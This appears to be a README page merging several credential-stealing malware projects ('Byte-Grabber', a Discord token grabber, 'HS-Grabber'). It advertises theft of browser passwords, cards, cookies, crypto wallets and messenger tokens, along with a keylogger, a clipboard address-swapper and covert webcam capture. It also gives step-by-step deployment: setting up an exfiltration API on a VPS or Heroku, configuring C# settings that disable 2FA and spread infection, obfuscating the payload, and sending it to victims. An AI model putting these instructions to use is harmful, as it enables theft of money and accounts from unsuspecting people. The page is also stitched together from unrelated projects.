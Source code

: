 # Byte-Grabber

AntiAnalysis (VirtualBox, SandBox, Debugger, VirusTotal, Any.Run)

![image](https://user-images.githubusercontent.com/106811566/171860372-4db82642-365a-4a78-a9ca-ea6171ab179d.png)


Get system info (Version, CPU, GPU, RAM, IPs, BSSID, Location, Screen metrics, Installed apps)

Chromium based browsers (passwords, credit cards, cookies, history, autofill, bookmarks)

Firefox based browsers (db files, cookies, history, bookmarks) Internet explorer/Edge (passwords)

Saved wifi networks & scan networks around device (SSID, BSSID) s File grabber (Documents, Images, Source codes, Databases, USB)

Detect banking & cryptocurrency services in browsers

Steam, Uplay, Battle.Net, Minecraft session

Install keylogger & clipper

Desktop & Webcam screenshot

![image](https://user-images.githubusercontent.com/106811566/171858268-4f009c5f-ba70-4f63-b02d-8962271020f5.png)


ProtonVPN, OpenVPN, NordVPN s Crypto Wallets

Zcash, Armory, Bytecoin, Jaxx, Exodus, Ethereum, Electrum, AtomicWallet, Guarda, Coinomi, Litecoin, Dash, Bitcoin

Crypto Wallet Extensions from Chrome & Edge Binance, coin98, Phantom, Mobox, XinPay, Math10, Metamask, BitApp, Guildwallet, iconx, Sollet, Slope Wallet, Starcoin, Swash, Finnie, KEPLR, Crocobit, OXYGEN, Nifty, Liquality, Auvitas wallet, Math wallet, MTV wallet, Rabet wallet, Ronin wallet, Yoroi wallet, ZilPay wallet, Exodus, Terra Station, Jaxx.

Messenger Sessions, Accounts, Tokens Discord, Telegram, ICQ, Skype, Pidgin, Outlook, Tox, Element, Signal

Directories structure Filezilla hosts Process list Product key Autorun module

🎹 Keylogger: The keylogger will turn on if the user is texting in the chat or using the bank's website.

📋 Clipper: Clipper turns on and replaces crypto wallet addresses in the clipboard when a user makes a transaction.

📷 Webcam screenshots: Webcam screenshots will be taken if the user is watching something obscene on the Internet.


# Features
 - No local caching
 - Transfers via Discord webhook
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - No external Python modules required
 - \[**todo**\] Cross-platform support

<br>

# How to use
 1. Create a webhook on your Discord server. I recommend creating a new server.
 2. Change the 'WEBHOOK_URL' variable value to your Discord webhook URL in [token-grabber.py](token-grabber.py)
 3. *(obfuscate the code or install it as a backdoor in an other script.)*
 4. Send the script to your victim and make them run it.
# Features
* Steal Discord info
  * Username
  * E-mail
  * Phone Number
  * Nitro Type
  * ID
* Steal Discord token
  * Discord
  * Discord PTB
  * Discord Dev
* Steal Discord Password : When you change password & When you change e-mail & When you log-in in your discord account
  * Discord
  * Discord PTB
  * Discord Dev
  

# How to use

## #1 : API Hosting

### Method 1 : (require a vps)

Open port 80

Install Apache2 : 
```
$ sudo apt-get update
$ sudo apt-get install apache2
```

Test server : 

```
$ curl urserverurl
```

Configure Firewall :
```
$ sudo ufw allow 'Apache'
```

Verify the change :
```
$ sudo ufw status
```

Install API :
```
$ git clone https://github.com/Stanley-GF/api.git
```

Configure port & ip in the main index.js
```
$ cd api
$ nano index.js
```

Configure webhook url : 
```
$ cd api/endpoints
$ nano index.js
```

Your API URL gonna be : 
http://your-vps-ip/api/v1/send (replace your-vps-ip by ur real vps ip, obviously)

### Method 2 : Heroku (the best for beginner)

* Start https://heroku.com
* Signup an account
* Create an app
* Fork https://github.com/Stanley-GF/api on your github account
* Go in endpoints -> index.js -> edit and replace the webhook url by your webhook url
* Go in https://dashboard.heroku.com/apps/ , click on your app, go in "deploy" category
* In deployment method, select Github, login in your github account by authorize OAuth thing -> in App Connected, type "api" and select your project
* Enable "Automatic Deploy"
* press on Deploy Branch
* your server url gonna be : https://your-app-name.herokuapp.com/api/v1/send (replace your-app-name by ur real app name, obviously)

## #2 : Your .exe

* Download src of this project
* Open project
* Go in settings.cs and configure option : 

```cs

public static bool disableMfa = false; // disable 2FA 

public static bool restartDiscord = true; // restart discord after injection

public static bool spread = true; // ALWAYS TRUE : (for infect client)

private static string serverurl = "https://your-app-name.herokuapp.com/api/v1/send"; // replace "your-app-name.herokuapp.com/api/v1/send" by your api url

public static string Url = "https://cors-anywhere2.herokuapp.com/" + serverurl; // don't tuch.
```

* Compile the project
* Go in `\HS-Grabber\HS-Grabber\bin\Debug`
* Send the .exe to victims ! 

# Some screenshot of the grabber

![yay](https://cdn.discordapp.com/attachments/797933407476777012/798145821203628052/unknown.png)
